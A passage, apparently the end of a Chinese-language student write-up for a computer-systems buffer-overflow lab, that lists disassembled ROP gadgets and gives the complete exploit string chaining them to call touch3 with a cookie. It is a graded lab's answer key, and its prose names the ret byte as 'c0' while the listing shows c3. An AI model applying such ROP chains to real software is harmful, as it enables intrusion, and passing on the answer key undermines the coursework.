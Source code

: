 ```assembly
# gadget5: 89 d1, movl %edx, %ecx
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   
```

```assembly
# gadget6: 89 ce,  movl %ecx, %esi
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
```

```assembly
# gadget7: 直接用add_xy函数
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

```assembly
# gadget8: 48 89 c7, movq %rax, %rdi
<addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

值得注意的是，在gadget5中传入的是`89 d1 08 db c0`，我们虽然只需要89 d1作为`movl %edx, %ecx`，以及c0作为`ret`，但是中间的`08 db`编码是`orb %bl, %bl`，对寄存器没有任何影响。

于是答案有：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 0x28个0填满getbuf */
06 1a 40 00 00 00 00 00 /* gadget1 */
a2 19 40 00 00 00 00 00 /* gadget2 */
cc 19 40 00 00 00 00 00 /* gadget3 */
48 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* gadget4 */
69 1a 40 00 00 00 00 00 /* gadget5 */
13 1a 40 00 00 00 00 00 /* gadget6 */
d6 19 40 00 00 00 00 00 /* gadget7 */
a2 19 40 00 00 00 00 00 /* gadget8 */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 00 /* cookie's ascii */
```

***



## 3. 写在后面
